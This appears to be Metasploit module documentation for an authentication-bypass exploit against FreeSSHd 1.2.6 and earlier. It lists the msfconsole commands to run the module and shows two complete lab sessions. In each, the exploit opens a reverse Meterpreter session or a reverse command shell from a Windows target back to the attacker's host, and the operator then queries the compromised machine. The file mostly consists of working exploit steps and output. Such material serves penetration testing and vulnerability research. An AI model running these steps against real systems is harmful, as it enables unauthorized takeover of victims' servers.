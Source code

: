 ## Description

This module exploits a vulnerability found in FreeSSHd <= 1.2.6 to bypass authentication. You just need the username (which defaults to root). The exploit has been tested with both password and public key authentication.


## Verification

  1. Start msfconsole
  2. Do : `use exploit/windows/ssh/freesshd_authbypass`
  3. Do : `set RHOST [target IP]`
  5. Do : `set PAYLOAD [valid windows payload]` if you want to use other payloads (`windows/meterpreter/reverse_tcp` by default)
  6. Do : `set LHOST [Your IP]`
  7. Do : `set LPORT [valid port]` (port is `4444` by default)
  8. Do : `exploit`
  9. If target is vulnerable, a shell (`meterpreter` by default) should pop

## Example with default payload (windows/meterpreter/reverse_tcp)
```
msf > use exploit/windows/ssh/freesshd_authbypass
msf exploit(windows/ssh/freesshd_authbypass) > set RHOST 192.168.80.131
RHOST => 192.168.80.131
msf exploit(windows/ssh/freesshd_authbypass) > set LHOST 192.168.80.138
LHOST => 192.168.80.138
msf exploit(windows/ssh/freesshd_authbypass) > exploit

[*] Started reverse TCP handler on 192.168.80.138:4444 
[*] 192.168.80.131:22 - Trying username '4Dgifts'
[*] 192.168.80.131:22 - Trying username 'EZsetup'
[*] 192.168.80.131:22 - Trying username 'OutOfBox'
[*] 192.168.80.131:22 - Trying username 'ROOT'
[*] Sending stage (179779 bytes) to 192.168.80.131
[*] Meterpreter session 2 opened (192.168.80.138:4444 -> 192.168.80.131:49166) at 2018-11-16 16:10:33 +0800

meterpreter > sysinfo
Computer        : SSH-TEST-SERVER
OS              : Windows 8.1 (Build 9600).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 

```

## Example with plain old reverse shell (windows/shell_reverse_tcp)
```
msf > use exploit/windows/ssh/freesshd_authbypass
msf exploit(windows/ssh/freesshd_authbypass) > set RHOST 192.168.80.131
RHOST => 192.168.80.131
msf exploit(windows/ssh/freesshd_authbypass) > set PAYLOAD windows/shell_reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
msf exploit(windows/ssh/freesshd_authbypass) > set LHOST 192.168.80.138
LHOST => 192.168.80.138
msf exploit(windows/ssh/freesshd_authbypass) > set LPORT 4444
LPORT => 4444
msf exploit(windows/ssh/freesshd_authbypass) > exploit

[*] Started reverse TCP handler on 192.168.80.138:4444 
[*] 192.168.80.131:22 - Trying username '4Dgifts'
[*] 192.168.80.131:22 - Trying username 'EZsetup'
[*] 192.168.80.131:22 - Trying username 'OutOfBox'
[*] 192.168.80.131:22 - Trying username 'ROOT'
[*] Command shell session 1 opened (192.168.80.138:4444 -> 192.168.80.131:49167) at 2018-11-16 16:12:19 +0800



C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::5d22:f345:9ea1:a320%3
   IPv4 Address. . . . . . . . . . . : 192.168.80.131
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Tunnel adapter isatap.localdomain:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : localdomain

C:\Windows\system32>hostname
hostname
SSH-TEST-SERVER

C:\Windows\system32>
```

